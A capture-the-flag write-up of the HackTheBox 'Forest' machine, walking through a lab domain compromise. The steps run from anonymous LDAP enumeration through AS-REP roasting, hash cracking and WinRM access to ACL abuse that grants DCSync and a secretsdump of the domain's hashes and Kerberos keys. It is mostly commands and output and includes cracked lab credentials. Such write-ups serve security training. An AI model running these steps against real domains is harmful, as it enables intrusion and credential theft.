

<div class="callout callout-info">

**Box Info**

**Platform:** HackTheBox, **OS:** Windows Server 2016 (AD, `htb.local`, `FOREST`), **Difficulty:** Easy, **Released:** 2019-10-12, **IP:** `10.10.10.161`

</div>

<div class="callout callout-abstract">

**Attack Path**

1. The domain controller permits **anonymous LDAP binds**. Enumerate domain objects with no credentials and build a user list, including the service account `svc-alfresco`.
2. `svc-alfresco` has Kerberos **pre-authentication disabled**. **AS-REP roast** it with `GetNPUsers.py`, then crack the returned hash with `hashcat` (`s3rvice`). Authenticate over WinRM for the user flag.
3. BloodHound shows `svc-alfresco` is a member of **Account Operators**, which carries `GenericAll` over the **Exchange Windows Permissions** group. Create a domain account (Account Operators is allowed to) and add it to that group.
4. **Exchange Windows Permissions** holds **WriteDacl** on the domain object. Use it to grant the new account **DCSync** rights.
5. `secretsdump.py` replicates every NTLM hash and Kerberos key from the domain. **Pass-the-hash** as `Administrator` with `psexec.py`, or request a TGT from the AES key and run `wmiexec.py`. Root flag.

</div>

<div class="callout callout-key">

**Credentials and Flags**

| Where | Value |
| --- | --- |
| `svc-alfresco` (AS-REP hash, cracked) | `s3rvice` |
| lab account created via Account Operators | `baphomet : BaphometRulz` |
| `Administrator` (DCSync, NTLM) | `32693b11e6aa90eb43d32c72a07ceea6` |
| `Administrator` (DCSync, AES256 key) | `910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913` |
| `user.txt` | `C:\Users\svc-alfresco\Desktop\user.txt` |
| `root.txt` | `C:\Users\Administrator\Desktop\root.txt` |

</div>

---

## Overview

Forest is the box most people point to when they want to explain why an on-prem Exchange install is a security liability. There is no web application and no memory-corruption exploit anywhere in the path, it is pure Active Directory misconfiguration from start to finish. The domain controller answers **anonymous LDAP binds**, which hands an unauthenticated attacker the full user list. One of those accounts, `svc-alfresco`, has Kerberos **pre-authentication disabled**, so it can be **AS-REP roasted** and its weak password cracked offline in seconds. From that foothold, BloodHound lays out the rest: `svc-alfresco` sits in **Account Operators**, Account Operators can create users and has `GenericAll` over the **Exchange Windows Permissions** group, and that group was granted **WriteDacl on the domain object** when Exchange was installed. Chaining those three facts lets you write a **DCSync** ACE for an account you control and replicate the `Administrator` hash straight out of the directory.

Related AS-REP roasting: [Attacktive Directory](/writeups/tryhackme/windows/medium/attacktive-directory/), [VulnNet Roasted](/writeups/tryhackme/windows/medium/vulnnet-roasted/), [Reset](/writeups/tryhackme/windows/hard/reset/). Related BloodHound ACL abuse into DCSync: [VulnNet Roasted](/writeups/tryhackme/windows/medium/vulnnet-roasted/), [Anubis](/writeups/hackthebox/windows/insane/anubis/), [Ascension](/writeups/hackthebox/endgames/ascension/). Related anonymous / null LDAP enumeration: [Certified](/writeups/hackthebox/windows/medium/certified/), [Reset](/writeups/tryhackme/windows/hard/reset/).

---

## Full Walkthrough

Forest is an easy Windows machine built around a domain controller for a domain that also has Exchange Server installed. The DC allows anonymous LDAP binds, which are used to enumerate domain objects. A service account with Kerberos pre-authentication disabled has a crackable password, and that gives the initial foothold. The account turns out to be a member of the Account Operators group, which can be leveraged to add a controlled user into a privileged Exchange group. That group membership grants DCSync rights on the domain, which is used to dump the NTLM hashes and fully compromise the host.

The box was reset once partway through this run, so the target IP changes from `10.129.60.236` to `10.129.61.86` around the privilege-escalation stage. Nothing else about the path changes.

___

## Enumeration

### Nmap scan

```bash
Host is up, received user-set (0.015s latency).
Scanned at 2026-09-09 08:07:48 EDT for 69s
Not shown: 65512 closed tcp ports (conn-refused)
PORT      STATE SERVICE      REASON  VERSION
53/tcp    open  domain       syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2026-09-09 12:14:58Z)
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds syn-ack Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?    syn-ack
593/tcp   open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack
3268/tcp  open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-headers: 
|   Content-Type: text/html; charset=us-ascii
|   Server: Microsoft-HTTPAPI/2.0
|   Date: Wed, 09 Sep 2026 12:15:46 GMT
|   Connection: close
|   Content-Length: 315
|   
|_  (Request type: GET)
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       syn-ack .NET Message Framing
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-headers: 
|   Content-Type: text/html; charset=us-ascii
|   Server: Microsoft-HTTPAPI/2.0
|   Date: Wed, 09 Sep 2026 12:15:46 GMT
|   Connection: close
|   Content-Length: 315
|   
|_  (Request type: GET)
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack Microsoft Windows RPC
49680/tcp open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
49681/tcp open  msrpc        syn-ack Microsoft Windows RPC
49685/tcp open  msrpc        syn-ack Microsoft Windows RPC
49700/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows
```

The port set is a textbook domain controller: DNS on 53, Kerberos on 88, LDAP and LDAPS on 389 and 636, the global catalog on 3268 and 3269, SMB on 445, and WinRM on 5985. The host advertises itself as `FOREST` in the domain `htb.local`, and the `.NET Message Framing` service on 9389 (the AD Web Services / ADWS endpoint) is another domain-controller giveaway.

The first thing I check against any DC is whether it will talk to me without credentials at all. Forest does, LDAP accepts an anonymous bind.

```powershell
└─[$] ldapsearch -x -H ldap://10.129.60.236 -b "DC=htb,DC=local" "(objectClass=*)"                                  [8:51:49]

# extended LDIF
#
# LDAPv3
# base <DC=htb,DC=local> with scope subtree
# filter: (objectClass=*)
# requesting: ALL
#

# htb.local
dn: DC=htb,DC=local
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=htb,DC=local
instanceType: 5
whenCreated: 20190918174549.0Z
whenChanged: 20260909124110.0Z
subRefs: DC=ForestDnsZones,DC=htb,DC=local
subRefs: DC=DomainDnsZones,DC=htb,DC=local
subRefs: CN=Configuration,DC=htb,DC=local
uSNCreated: 4099
dSASignature:: AQAAACgAAAAAAAAAAAAAAAAAAAAAAAAAOqNrI1l5QUq5WV+CaJoIcQ==
uSNChanged: 929834
name: htb
objectGUID:: Gsfw30mpJkuMe1Lj4stuqw==
replUpToDateVector:: AgAAAAAAAAASAAAAAAAAAIArugegK3xCjpG3jOKvTZsK8AAAAAAAAPxOm
 RMDAAAAEeYhGk0xaEyawzvMi5bZbx0ADQAAAAAA1L0+FwMAAABptVkf+oupR7OwUi6g1GLsFlADAA
 AAAAAB1aoTAwAAADqjayNZeUFKuVlfgmiaCHEFoAAAAAAAAF8hmRMDAAAA550WLBTQ2UuhowLQP8A
 4SyAwDgAAAAAA4uSxIAMAAAD9IT857pY2TLBDvA9wjXW6GRAEAAAAAABuyT0XAwAAABA8AUG0jJ1F
 iOJ6vAWO49cVMAMAAAAAANXXphMDAAAAtTDGYaJBsEWxNEEatU4xYwjQAAAAAAAAnz2ZEwMAAABOf
 GN4ZhbsSauczVHuYEiBE3ACAAAAAADdbaATAwAAADH0xotFcHlDppuZ8rSNJnAMEAEAAAAAAIbFmR
 MDAAAAtwL+jwq2+0WZliEirTGKpwawAAAAAAAA1ymZEwMAAAAaxJ+QNDLHQ55lTGqoLvfGCwABAAA
 AAADKrZkTAwAAAFBd76JcNvNMvcbhLzeCkdkXoAMAAAAAAGmqqxMDAAAAGcL6qk8Zs0qRG/BZYykq
 ex+QDQAAAAAADsc+FwMAAAB5TzHrWI2FTZJLavLc7Dl3CeAAAAAAAADPRZkTAwAAAMnKXu73q7hBp
 RxZtKkWpCEecA0AAAAAAJnFPhcDAAAAEuOp8cC6t0+uaoe83jqnLQfAAAAAAAAAwzeZEwMAAACevY
 D5RBP7RbrYAQrgjhuPHNAMAAAAAACxrz4XAwAAAA==
creationTime: 134334312703875382
forceLogoff: -9223372036854775808
lockoutDuration: -18000000000
lockOutObservationWindow: -18000000000
lockoutThreshold: 0
maxPwdAge: -9223372036854775808
minPwdAge: -864000000000
minPwdLength: 7
modifiedCountAtLastProm: 0
nextRid: 1000
pwdProperties: 0
pwdHistoryLength: 24
objectSid:: AQQAAAAAAAUVAAAALB4ltxV1shXFsPNP
serverState: 1
uASCompat: 1
modifiedCount: 1
auditingPolicy:: AAE=
nTMixedDomain: 0
rIDManagerReference: CN=RID Manager$,CN=System,DC=htb,DC=local
fSMORoleOwner: CN=NTDS Settings,CN=FOREST,CN=Servers,CN=Default-First-Site-Nam
 e,CN=Sites,CN=Configuration,DC=htb,DC=local
systemFlags: -1946157056
wellKnownObjects: B:32:6227F0AF1FC2410D8E3BB10615BB5B0F:CN=NTDS Quotas,DC=htb,
 DC=local
wellKnownObjects: B:32:F4BE92A4C777485E878E9421D53087DB:CN=Microsoft,CN=Progra
 m Data,DC=htb,DC=local
wellKnownObjects: B:32:09460C08AE1E4A4EA0F64AEE7DAA1E5A:CN=Program Data,DC=htb
 ,DC=local
wellKnownObjects: B:32:22B70C67D56E4EFB91E9300FCA3DC1AA:CN=ForeignSecurityPrin
 cipals,DC=htb,DC=local
wellKnownObjects: B:32:18E2EA80684F11D2B9AA00C04F79F805:CN=Deleted Objects,DC=
 htb,DC=local
wellKnownObjects: B:32:2FBAC1870ADE11D297C400C04FD8D5CD:CN=Infrastructure,DC=h
 tb,DC=local
wellKnownObjects: B:32:AB8153B7768811D1ADED00C04FD8D5CD:CN=LostAndFound,DC=htb
 ,DC=local
wellKnownObjects: B:32:AB1D30F3768811D1ADED00C04FD8D5CD:CN=System,DC=htb,DC=lo
 cal
wellKnownObjects: B:32:A361B2FFFFD211D1AA4B00C04FD7D83A:OU=Domain Controllers,
 DC=htb,DC=local
wellKnownObjects: B:32:AA312825768811D1ADED00C04FD8D5CD:CN=Computers,DC=htb,DC\
```

Two things in that dump are worth calling out before moving on. `lockoutThreshold: 0` means the domain has **no account-lockout policy**, so both offline cracking and any online guessing carry zero risk of locking accounts. `minPwdLength: 7` tells me the minimum password length is only seven characters, which is a good sign for the AS-REP crack that comes next.

From there I filtered the same anonymous dump for account names. Grepping for `svc` surfaces the service account immediately:

```powershell
└─[$] ldapsearch -x -H ldap://10.129.60.236 -b "DC=htb,DC=local" "(objectClass=*)" | grep svc                       [8:51:50]

# svc-alfresco, Service Accounts, htb.local
dn: CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local
```

Widening the filter to `sAMAccountName` gives the full list of real users on the domain:

```powershell
└─[$] ldapsearch -x -H ldap://10.129.60.236 -b "DC=htb,DC=local" "(objectClass=*)" | grep sAMAccountName            [8:54:16]

sAMAccountName: Guest
sAMAccountName: EXCH01$
sAMAccountName: FOREST$
sAMAccountName: test
sAMAccountName: sebastien
sAMAccountName: santi
sAMAccountName: lucinda
sAMAccountName: andy
sAMAccountName: mark
```

I saved the human account names (`sebastien`, `santi`, `lucinda`, `andy`, `mark`, `svc-alfresco`, `test`) into `users.lst` for the next step. The `EXCH01$` machine account also confirms there is an Exchange server in the environment, which becomes important later.

## Foothold

The next thing I check for on any domain I can enumerate is accounts with Kerberos pre-authentication disabled, since those are vulnerable to **AS-REP roasting**: the KDC will hand back an AS-REP encrypted with the account's password-derived key to anyone who asks, and that response can be cracked offline. The LDAP filter for the `DONT_REQ_PREAUTH` bit (`userAccountControl:1.2.840.113556.1.4.803:=4194304`) returned only referrals in my anonymous session:

```powershell
└─[$] ldapsearch -x -H ldap://10.129.60.236 -b "dc=htb,dc=local" "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" sAMAccountName

# extended LDIF
#
# LDAPv3
# base <dc=htb,dc=local> with scope subtree
# filter: (&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
# requesting: sAMAccountName 
#

# search reference
ref: ldap://ForestDnsZones.htb.local/DC=ForestDnsZones,DC=htb,DC=local

# search reference
ref: ldap://DomainDnsZones.htb.local/DC=DomainDnsZones,DC=htb,DC=local

# search reference
ref: ldap://htb.local/CN=Configuration,DC=htb,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 4
# numReferences: 3
```

Rather than fight the anonymous bind's limitations, I confirmed it with impacket's `GetNPUsers.py`, which is purpose-built for this and just needs the user list:

```powershell
└─[$] python3 ~/ADTools/impacket/examples/GetNPUsers.py 'HTB.LOCAL/' -usersfile users.lst  -dc-ip '10.129.60.236' -no-pass
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

/home/anarchy/ADTools/impacket/examples/GetNPUsers.py:150: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:920629c8b063bac1a5ae90780eaec5a9$e81580af7be699541da0480fcddecab712cd287931415cf7ff74d043d86be8f8450772dc60d48e13dcc7e7c8fcce6db4ca67527949759260e1f1cd088497bfd9a653d306662d16dab774649234419b8d0c2f96c65394a17a3d7d5b3088a1d3d0e77244c2cfa20c78d18ebf973ee67a2d1b1b969ade6a4cc9614d84c47c73ed7054e5fd5b258e6925cc7f5e3743a82382a634207cbede4f41866e3895ee5e1cfc64c6d221148f672239521e8f4fb2bfb8fd13c846037b0dc6b2af1496fa56d511cdaa5c489def9e7d92a47a4b16e12296af2f231c9478390b7231f474e4ebafc24d6760308b3d
```

The `test` account came back as `KDC_ERR_CLIENT_REVOKED` (it is disabled), the five real users all have pre-auth required, and `svc-alfresco` returns an AS-REP hash. That is the one I want.

Feeding the hash to `hashcat` in AS-REP mode (`-m 18200`) against `rockyou.txt`, it falls almost immediately:

```powershell
hashcat -a 0  -m 18200 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -O --potfile-disable 

$krb5asrep$23$svc-alfresco@HTB.LOCAL:920629c8b063bac1a5ae90780eaec5a9$e81580af7be699541da0480fcddecab712cd287931415cf7ff74d043d86be8f8450772dc60d48e13dcc7e7c8fcce6db4ca67527949759260e1f1cd088497bfd9a653d306662d16dab774649234419b8d0c2f96c65394a17a3d7d5b3088a1d3d0e77244c2cfa20c78d18ebf973ee67a2d1b1b969ade6a4cc9614d84c47c73ed7054e5fd5b258e6925cc7f5e3743a82382a634207cbede4f41866e3895ee5e1cfc64c6d221148f672239521e8f4fb2bfb8fd13c846037b0dc6b2af1496fa56d511cdaa5c489def9e7d92a47a4b16e12296af2f231c9478390b7231f474e4ebafc24d6760308b3d:s3rvice
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:920629c8b063ba...308b3d
Time.Started.....: Wed Sep  9 09:01:14 2026 (1 sec)
Time.Estimated...: Wed Sep  9 09:01:15 2026 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 10976.2 kH/s (1.46ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4719625/14344384 (32.90%)
Rejected.........: 1033/4719625 (0.02%)
Restore.Point....: 3933082/14344384 (27.42%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: se7ven1985 -> pepsi4713
Hardware.Mon.#1..: Temp: 54c Fan:  0% Util: 27% Core:2475MHz Mem:8251MHz Bus:8

Started: Wed Sep  9 09:01:05 2026
Stopped: Wed Sep  9 09:01:17 2026
```

The password is `s3rvice`. With a valid credential in hand, I checked which services it could reach. `netexec` confirms WinRM access, and helpfully flags it as `Pwn3d!`, meaning the account is in a group that permits remote PowerShell:

```powershell
─[$] nxc winrm htb.local -u 'svc-alfresco' -p 's3rvice'                                                            [9:01:21]
WINRM       10.129.60.236   5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) 
WINRM       10.129.60.236   5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

```powershell
└─[$] evil-winrm -i htb.local  -u 'svc-alfresco' -p 's3rvice'                    
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> ls
    Directory: C:\Users\svc-alfresco\desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         9/9/2026   5:42 AM             34 user.txt

*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> cat user.txt
994074a56ffff7d252ed360a036e2e74
```

That is the user flag.

## Enumerating the domain

With working credentials, I collected the domain into BloodHound to find a path to higher privileges:

```powershell
└─[$] bloodhound-python -u 'svc-alfresco' -p 's3rvice' -d htb.local -ns 10.129.60.236 -c All --zip                  [9:04:54]
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (FOREST.htb.local:88)] [Errno 111] Connection refused
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 08S
INFO: Compressing output into 20260909090520_bloodhound.zip
```



The graph makes the path clear. `svc-alfresco` is a member of **Account Operators**, and Account Operators has `GenericAll` over a large set of groups, including **Exchange Windows Permissions**. That group, in turn, holds a **WriteDacl** edge pointing directly at the domain object `HTB.LOCAL`, which is exactly what a DCSync attack needs. So the plan is: put an account I control into Exchange Windows Permissions, then use that group's WriteDacl to give myself replication rights.

First, I added `svc-alfresco` itself to the group with `bloodyAD`, referencing it by SID:

```powershell
└─[$] bloodyAD --host "10.129.60.236" -d "htb.local" -u "svc-alfresco" -p "s3rvice" add groupMember "S-1-5-21-3072663084-364016917-1341370565-1121" 'svc-alfresco'
[+] svc-alfresco added to S-1-5-21-3072663084-364016917-1341370565-1121
```

## Privesc

Account Operators can "administer domain user and group accounts", which in practice means it can **create new domain users** and manage most non-protected groups. Rather than rely only on the service account, I created a dedicated account so the privileged group membership and the DCSync ACE are cleanly attributable and easy to remove afterward. I created the user `baphomet` and confirmed its group memberships:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user baphomet
User name                    baphomet
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/9/2026 11:02:22 PM
Password expires             Never
Password changeable          9/10/2026 11:02:22 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Terminal Server Licen
                             *Windows Authorization
Global Group memberships     *Exchange Windows Perm*Domain Users
The command completed successfully.
```

The account is now in **Exchange Windows Permissions** (and, for convenience, Remote Management Users so it can also get a shell). Every member of Exchange Windows Permissions inherits that group's **WriteDacl** on `htb.local`, so `baphomet` can now rewrite the domain's DACL, and the specific ACE I want is the pair of extended rights (`DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`) that together allow **DCSync**. `bloodyAD` wraps that into a single command:

```powershell
└─[$] bloodyAD --host '10.129.61.86' -d 'htb.local' -u 'baphomet' -p 'BaphometRulz' add dcsync 'baphomet'           [2:08:16]

[+] baphomet is now able to DCSync
```

### What is DCSync?

**DCSync** abuses the directory replication protocol (MS-DRSR). Domain controllers replicate directory data, including secrets, between each other constantly, and they authorize a replication request by checking whether the caller holds the "Get Replication Changes" extended rights on the domain object. Those rights are normally held only by domain controllers, Domain Admins, and a handful of other tier-0 principals. If an attacker can add themselves to that list, they can send the same replication request a real DC would and the target hands back every account's password hashes, no code execution on the DC required and nothing written to disk.

With the ACE in place, impacket's `secretsdump.py` performs the replication and dumps the entire domain:

```powershell
└─[$] python3 ~/ADTools/impacket/examples/secretsdump.py 'htb.local/baphomet:BaphometRulz@10.129.61.86'             [2:08:22]
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
baphomet:10101:aad3b435b51404eeaad3b435b51404ee:7fec912ebe3f5f4e3f3b4e61f16e7708:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:2cfdb09d443d722a716fbaaf30275141:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b
krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58
krbtgt:des-cbc-md5:9dd5647a31518ca8
htb.local\HealthMailboxc3d7722:aes256-cts-hmac-sha1-96:258c91eed3f684ee002bcad834950f475b5a3f61b7aa8651c9d79911e16cdbd4
htb.local\HealthMailboxc3d7722:aes128-cts-hmac-sha1-96:47138a74b2f01f1886617cc53185864e
htb.local\HealthMailboxc3d7722:des-cbc-md5:5dea94ef1c15c43e
htb.local\HealthMailboxfc9daad:aes256-cts-hmac-sha1-96:6e4efe11b111e368423cba4aaa053a34a14cbf6a716cb89aab9a966d698618bf
htb.local\HealthMailboxfc9daad:aes128-cts-hmac-sha1-96:9943475a1fc13e33e9b6cb2eb7158bdd
htb.local\HealthMailboxfc9daad:des-cbc-md5:7c8f0b6802e0236e
htb.local\HealthMailboxc0a90c9:aes256-cts-hmac-sha1-96:7ff6b5acb576598fc724a561209c0bf541299bac6044ee214c32345e0435225e
htb.local\HealthMailboxc0a90c9:aes128-cts-hmac-sha1-96:ba4a1a62fc574d76949a8941075c43ed
htb.local\HealthMailboxc0a90c9:des-cbc-md5:0bc8463273fed983
htb.local\HealthMailbox670628e:aes256-cts-hmac-sha1-96:a4c5f690603ff75faae7774a7cc99c0518fb5ad4425eebea19501517db4d7a91
htb.local\HealthMailbox670628e:aes128-cts-hmac-sha1-96:b723447e34a427833c1a321668c9f53f
htb.local\HealthMailbox670628e:des-cbc-md5:9bba8abad9b0d01a
